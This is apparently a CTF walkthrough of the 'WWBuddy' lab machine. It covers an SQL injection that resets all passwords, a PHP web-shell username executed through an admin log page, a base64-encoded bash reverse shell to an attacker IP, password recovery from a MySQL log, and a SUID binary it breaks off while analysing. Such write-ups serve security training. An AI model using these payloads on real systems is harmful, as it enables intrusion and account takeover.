## TL;DR

In this challenge, we first find `SQLi` and reset everyone's password. Then, we access the admin panel and get `RCE` using log view on php page.

Next, we find the password for `roberto` inside `/var/log/mysql/general.log`.

At the end, we escalate to root in unintended solution, using SUID on `/bin/authenticate`. (jumping over `jenny` user)

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



We can see port `22` with ssh and port `80` with apache http server.
```bash
PORT   STATE SERVICE REASON         VERSION                                                                                            
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                       
| ssh-hostkey:                                                                                                                         
|   2048 66:75:21:b4:93:4a:a5:a7:df:f4:01:80:19:cf:ff:ad (RSA)                                                                         
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCsJLMZZ++Y5C7rrfjBr3NDcw28OtadaUG9ayV7tpujToTpPyR+SlEUkAFl8tPG/KyENYzXEPSz5B3s4AHCgX1uBw+PfNOV+
MyCf2uPMbg0o4vOl4uPgt1clDMV9Xy8n7rznCCukHNvHbS3H7/iJhv8Pw7Sw7Qe148OVDf5P/Sp8t7QlCa3c6+bXirhWz79HGj1kzxqWc+28NG+8EPDAIpBCiV4JOt8c31EGLxL
60YZv87jjasb881KcQZNPJjipw0/+vYvNYSUIwCChVAFCYsORhrYET5K6ek/NLHjkOsiGBZF57ra65lees8hTECo2jum/sFmkxp5KEy7hwThmUKV                       
|   256 a6:dd:30:3b:e4:96:ba:ab:5f:04:3b:9e:9e:92:b7:c0 (ECDSA)                                                                        
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLunpUbpWWEPWQO+prxN7M8mUGVgaINwd63DcUocu8/CyUxxBvFdv/Ldwdc7j
fc7WvRi5T3fHl+RGSCwQWezzbY=                                                                                                            
|   256 04:22:f0:d2:b0:34:45:d4:e5:4d:ad:a2:7d:cd:00:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFPNLi5HCm6YrjWfTkBrESGLZ4YsB3ACocpDoCrmUVO1
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.29 ((Ubuntu))
| http-title: Login
|_Requested resource was http://wwbuddy/login/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `wwbuddy` to our `/etc/hosts`

### Exploit SQLi to reset everyone's password

We start with fuzzing, using `ffuf`:
```bash
┌──(agonen㉿kali)-[~/thm/WWBuddy]
└─$ ffuf -u 'http://wwbuddy/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/common.txt -e .php,.txt,.xml -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://wwbuddy/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Extensions       : .php .txt .xml 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

admin                   [Status: 301, Size: 302, Words: 20, Lines: 10, Duration: 84ms]
api                     [Status: 301, Size: 300, Words: 20, Lines: 10, Duration: 87ms]
change                  [Status: 301, Size: 303, Words: 20, Lines: 10, Duration: 87ms]
chat.php                [Status: 200, Size: 1129, Words: 449, Lines: 38, Duration: 81ms]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 82ms]
images                  [Status: 301, Size: 303, Words: 20, Lines: 10, Duration: 75ms]
index.php               [Status: 302, Size: 7740, Words: 1198, Lines: 127, Duration: 89ms]
index.php               [Status: 302, Size: 7740, Words: 1198, Lines: 127, Duration: 82ms]
js                      [Status: 301, Size: 299, Words: 20, Lines: 10, Duration: 74ms]
login                   [Status: 301, Size: 302, Words: 20, Lines: 10, Duration: 84ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 89ms]
profile                 [Status: 301, Size: 304, Words: 20, Lines: 10, Duration: 82ms]
register                [Status: 301, Size: 305, Words: 20, Lines: 10, Duration: 105ms]
styles                  [Status: 301, Size: 303, Words: 20, Lines: 10, Duration: 111ms]
```



When we try to go to `/admin`, we get this message:



we can find the website `wwbuddy`, I create the user, and logged in:
```bash
elicopter:elicopter
```

We can see the ability to change password, we changed our password and everything  seems good.
However, when adding `'` to our username, for some reason the change password broke.



now, change the password, it broke:



Maybe this is vulnerable to `SQLi`.

I think this looks like:
```sql
update password={password} where username={username}
```

Let's try to give this payload, to check whether it works and change the password of all users, so this will be our new username:
```bash
elicopter' or '1'='1' -- -
```



and now change the password, it works.



Now, we can login with these credentials:
```bash
wwbuddy:elicopter
```

we can detect two more usernames, `henry` and `robert`:



I started by looking on the chats and find nothing, so I them moved to explore this users:

I managed to login into `henry`:
```bash
henry:elicopter
```

and found this chat with Roberto:



He says the default password for its ssh account is his birthday, which is `12/12/1212`.

In addition, I've found the birthday of `roberto`, which is `04/14/1995`.



I created file with possible passwords:
```bash
12/12/1212
12-12-1212
12_12_1212
12.12.1212
12\12\1212
12|12|1212
12121212
12 12 1212
1212 1212
12-121212
1212-1212
12_121212
1212_1212
1212-12-12
1212_12_12
1212/12/12
121212-12

04/14/1995
04-14-1995
04_14_1995
04.14.1995
04\14\1995
04|14|1995
04141995
04 14 1995
0414 1995
04-141995
0414-1995
04_141995
0414_1995
1995-04-14
1995_04_14
1995.04.14
1995-14-04
1995_14_04
1995/14/04
```

and also file with possible usernames:
```bash
roberto
henry
wwbuddy
admin
user
root
```

and tried to use `hydra` to brute force the login:
```bash
hydra -L users.txt -P passwords.txt ssh://wwbuddy -I
```
But I didn't manage to connect... let's keep exploring

### Get RCE using admin log view

I went to the `/admin` endpoint, which we saw earlier and didn't have privileges to access:



We can first see the flag:
```bash
THM{d0nt_try_4nyth1ng_funny}
```

It shows us all the users that tried to access the `/admin` endpoint, with no privileges.
What if we will create a user with the username, and try to access the endpoint ?
```bash
<?php system($_GET['cmd']);?>
```

That's can happen, we got our `RCE`.
```bash
http://wwbuddy/admin/index.php?cmd=id
```



let's paste the payload from `penelope` and get our reverse shell:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xMzIuMTY4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash
```


### Escalate to roberto using password found inside /var/log/mysql/general.log


we can find the file `config.php`, which contains credentials for mysql service:



```bash
www-data@wwbuddy:/var/www/html$ cat config.php 
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'password123');
define('DB_NAME', 'app');
```

Then, we logged into the `mysql` service with the password `password123`:

```bash
www-data@wwbuddy:/var/www/html$ mysql -u root -p                                                                                       
Enter password:                                                                                                                        
Welcome to the MySQL monitor.  Commands end with ; or \g.                                                                              
Your MySQL connection id is 22020                                                                                                      
Server version: 5.7.31-0ubuntu0.18.04.1 (Ubuntu)                                                                                       
                                                                                                                                       
Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.                                                           
                                                                                                                                       
Oracle is a registered trademark of Oracle Corporation and/or its                                                                      
affiliates. Other names may be trademarks of their respective                                                                          
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

However, we can't find anything interesting... all the passwords are the same (Very interesting why :)



Okay, I executed linpeas and found the file `/var/log/mysql/general.log`, with read permissions.



Then, I read it:
```bash
www-data@wwbuddy:/home$ cat /var/log/mysql/general.log                                                                                                       
/usr/sbin/mysqld, Version: 5.7.30-0ubuntu0.18.04.1 ((Ubuntu)). started with:                                                                                 
Tcp port: 3306  Unix socket: /var/run/mysqld/mysqld.sock                                                                                                     
Time                 Id Command    Argument                                                                                                                  
2020-07-25T14:35:56.331972Z         6 Query     show global variables where Variable_Name like "%general%"
2020-07-25T14:36:04.753758Z         6 Quit
2020-07-25T14:41:25.299513Z         8 Connect   root@localhost on  using Socket
2020-07-25T14:41:25.299556Z         8 Connect   Access denied for user 'root'@'localhost' (using password: YES)
2020-07-25T14:41:25.309432Z         9 Connect   root@localhost on  using Socket
2020-07-25T14:41:25.309467Z         9 Connect   Access denied for user 'root'@'localhost' (using password: YES)
2020-07-25T14:41:25.317881Z        10 Connect   root@localhost on  using Socket
2020-07-25T14:41:25.317916Z        10 Connect   Access denied for user 'root'@'localhost' (using password: NO)
2020-07-25T14:56:02.127981Z        11 Connect   root@localhost on app using Socket
2020-07-25T14:56:02.128534Z        11 Quit
2020-07-25T15:01:40.140340Z        12 Connect   root@localhost on app using Socket
2020-07-25T15:01:40.143115Z        12 Prepare   SELECT id, username, password FROM users WHERE username = ?
2020-07-25T15:01:40.143760Z        12 Execute   SELECT id, username, password FROM users WHERE username = 'RobertoyVnocsXsf%X68wf'
2020-07-25T15:01:40.147944Z        12 Close stmt
2020-07-25T15:01:40.148109Z        12 Quit
2020-07-25T15:02:00.018314Z        13 Connect   root@localhost on app using Socket
2020-07-25T15:02:00.018975Z        13 Prepare   SELECT id, username, password FROM users WHERE username = ?
2020-07-25T15:02:00.019056Z        13 Execute   SELECT id, username, password FROM users WHERE username = 'Roberto'
2020-07-25T15:02:00.089575Z        13 Close stmt
2020-07-25T15:02:00.089631Z        13 Quit
2020-07-25T15:02:00.093503Z        14 Connect   root@localhost on app using Socket
2020-07-25T15:02:00.093662Z        14 Query     SELECT name FROM countries
2020-07-25T15:02:00.094135Z        14 Query     SELECT country, email, birthday, description FROM users WHERE id = 'b5ea6181006480438019e76f8100249e'
2020-07-25T15:02:00.096687Z        14 Query     SELECT * FROM messages WHERE sender = 'b5ea6181006480438019e76f8100249e' OR receiver = 'b5ea6181006480438019e
76f8100249e'
2020-07-25T15:02:00.097056Z        14 Query     SELECT id,username FROM users WHERE id IN ('fc18e5f4aa09bbbb7fdedf5e277dda00', 'be3308759688f3008d01a7ab12041
198') ORDER BY username
2020-07-25T15:02:00.097174Z        14 Quit
2020-07-25T15:06:48.352118Z        15 Connect   root@localhost on app using Socket
2020-07-25T15:06:48.352492Z        15 Quit
```

This line is very interesting:
```bash
2020-07-25T15:01:40.143760Z        12 Execute   SELECT id, username, password FROM users WHERE username = 'RobertoyVnocsXsf%X68wf'
```

I can guess that the password is `yVnocsXsf%X68wf`, it seems to happen to paste username and the password...

Let's try to `su` into roberto, with the password `yVnocsXsf%X68wf`:



Now, we can read the user flag:
```bash
roberto@wwbuddy:~$ cat importante.txt 
A Jenny vai ficar muito feliz quando ela descobrir que foi contratada :DD

Não esquecer que semana que vem ela faz 26 anos, quando ela ver o presente que eu comprei pra ela, talvez ela até anima de ir em um encontro comigo.


THM{g4d0_d+_kkkk}
```

Notice, we need to escalate from here to `jenny`, but i managed to bypass this, and jump straight into root.

### Privilege Escalation to Root using SUID on /bin/authenticate - Unintended solution :D

Using linpeas, we can also detect the binary `/bin/authenticate`, with SUID bit.



I tried to execute it:



As you can see, I am a developer
```bash
roberto@wwbuddy:/tmp$ /bin/authenticate 
roberto developer
You are already a developer.
roberto@wwbuddy:/tmp$ id
uid=1001(roberto) gid=1001(roberto) groups=1001(roberto),200(developer)
```

I downloaded the binary and reverse engineered it using [https://dogbolt.org/?id=263790b5-527b-4b80-8e3a-3dff5300046d#BinaryNinja=158](https://dogbolt.org/?id=263790b5-527b-4b80-8e3a-3dff5300046d#BinaryNinja=158).

